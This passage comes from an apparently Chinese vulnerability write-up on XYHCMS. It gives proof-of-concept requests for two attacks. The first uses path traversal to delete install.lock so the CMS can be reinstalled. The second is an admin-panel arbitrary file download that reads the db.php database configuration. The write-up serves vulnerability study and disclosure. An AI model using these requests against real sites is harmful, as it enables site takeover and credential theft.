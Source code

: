 
方法二：post方式

```html
http://127.0.0.1/xyhcms_3.5_20171128/uploads_code/xyhai.php？s=/Database/delSqlFiles /batchFlag/1

POST数据：key[]= ../../../install/install.lock
```

[![fi4dPO.png](https://z3.ax1x.com/2021/08/03/fi4dPO.png)](https://imgtu.com/i/fi4dPO)



3.接下来直接访问 

http://127.0.0.1/xyhcms_3.5_20171128/uploads_code/install 重装cms

[![fi4ssA.png](https://z3.ax1x.com/2021/08/03/fi4ssA.png)](https://imgtu.com/i/fi4ssA)

### 二.XYHCMS 3.2 后台任意文件下载

------



#### 漏洞介绍



影响版本是XYHCMS 3.2，漏洞的成因是没有对下载的文件做任何限制。



#### 漏洞分析



找到

`/App/Manage/Controller/DatabaseController.class.php`文件。



锁定downfile()方法下载函数。



[![fi4cZt.png](https://z3.ax1x.com/2021/08/03/fi4cZt.png)](https://imgtu.com/i/fi4cZt)
这里并没有对下载的文件有限制，所以我们可以通过这段代码去构造poc。

#### 漏洞复现



1.进入后台页面。

[![fi42If.png](https://z3.ax1x.com/2021/08/03/fi42If.png)](https://imgtu.com/i/fi42If)



2.构造poc

```
http://127.0.0.1/xyhcms_3.5_20171128/uploads_code/xyhai.php?s=/Database/downFile/file/..\\..\\..\\App\\Common\\Conf\\db.php/type/zip
```
